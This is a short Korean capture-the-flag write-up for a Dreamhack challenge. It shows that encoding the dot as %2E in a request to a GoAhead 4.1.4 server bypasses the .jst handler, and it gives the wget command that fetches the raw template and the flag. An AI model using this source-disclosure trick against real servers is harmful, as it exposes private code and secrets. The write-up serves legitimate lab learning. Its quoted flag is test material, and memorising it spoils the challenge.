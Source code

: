 ## 코드

```html
<html>
	<body>
		<h1>Can you see flag?</h1>
		<% write("read me"/*this is flag DH{703ab75ab49d02bd4d7abdcb4e7ba39c}*/); %>
	</body>
</html>
```

## 풀이

도커파일 및 문제 설명에 goahead 4.1.4 버전을 사용한다고 나와있으며,

[https://github.com/embedthis/goahead/issues/300](https://github.com/embedthis/goahead/issues/300)

이런식으로 goahead에 대한 취약점 패치 내역이 친절하게 나와있다.

대충 이해해보자면 jst 파일을 핸들링하는 함수가 있는데, 이때 파일 경로를 flag.jst 대신 flag%2Ejst로 하면 jst 핸들러가 동작하지 않아 처리하기 전 파일을 받을 수 있다.

크롬에서 이를 실행하면 알아서 .로 바꿔주기 때문에, 

```bash
$ wget http://host1.dreamhack.games:10508/jst/flag%2Ejst 
```

를 실행하니까 flag를 주석처리하기 전 내용을 얻을 수 있었다.